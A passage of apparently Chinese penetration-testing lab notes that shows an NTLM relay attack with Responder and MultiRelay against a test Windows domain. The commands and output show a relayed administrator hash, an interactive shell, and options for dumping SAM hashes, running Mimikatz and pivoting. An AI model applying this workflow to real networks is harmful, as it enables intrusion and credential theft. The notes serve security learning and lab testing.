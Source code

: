 ```bash
➜  Responder git:(master) ✗ sudo python Responder.py -I eth0 -v
```

* 利用 Responder 的 MultiRelay 模块获取 shell

运行 MultiRelay 后，高权限主机随便执行 net use 即可，比如执行 net use \\\\aaa

```ini
➜  tools git:(master) ✗ sudo python MultiRelay.py -t 10.11.11.7 -u ALL

Responder MultiRelay 2.0 NTLMv1/2 Relay

Send bugs/hugs/comments to: laurent.gaffie@gmail.com
Usernames to relay (-u) are case sensitive.
To kill this script hit CTRL-C.

/*
Use this script in combination with Responder.py for best results.
Make sure to set SMB and HTTP to OFF in Responder.conf.

This tool listen on TCP port 80, 3128 and 445.
For optimal pwnage, launch Responder only with these 2 options:
-rv
Avoid running a command that will likely prompt for information like net use, etc.
If you do so, use taskkill (as system) to kill the process.
*/

Relaying credentials for these users:
['ALL']


Retrieving information for 10.11.11.7...
SMB signing: False
Os version: 'Windows 7 Professional 7601 Service Pack 1'
Hostname: 'WIN7'
Part of the 'TEST' domain
[+] Setting up SMB relay with SMB challenge: fb5db119d38f2d0d
[+] Received NTLMv2 hash from: 10.11.11.5
[+] Client info: ['Windows Server 2008 R2 Enterprise 7600', domain: 'TEST', signing:'True']
[+] Username: Administrator is whitelisted, forwarding credentials.
[+] SMB Session Auth sent.
[+] Looks good, Administrator has admin rights on C$.
[+] Authenticated.
[+] Dropping into Responder's interactive shell, type "exit" to terminate

Available commands:
dump               -> Extract the SAM database and print hashes.
regdump KEY        -> Dump an HKLM registry key (eg: regdump SYSTEM)
read Path_To_File  -> Read a file (eg: read /windows/win.ini)
get  Path_To_File  -> Download a file (eg: get users/administrator/desktop/password.txt)
delete Path_To_File-> Delete a file (eg: delete /windows/temp/executable.exe)
upload Path_To_File-> Upload a local file (eg: upload /home/user/bk.exe), files will be uploaded in \windows\temp\
runas  Command     -> Run a command as the currently logged in user. (eg: runas whoami)
scan /24           -> Scan (Using SMB) this /24 or /16 to find hosts to pivot to
pivot  IP address  -> Connect to another host (eg: pivot 10.0.0.12)
mimi  command      -> Run a remote Mimikatz 64 bits command (eg: mimi coffee)
mimi32  command    -> Run a remote Mimikatz 32 bits command (eg: mimi coffee)
lcmd  command      -> Run a local command and display the result in MultiRelay shell (eg: lcmd ifconfig)
help               -> Print this message.
exit               -> Exit this shell and return in relay mode.
                      If you want to quit type exit and then use CTRL-C

```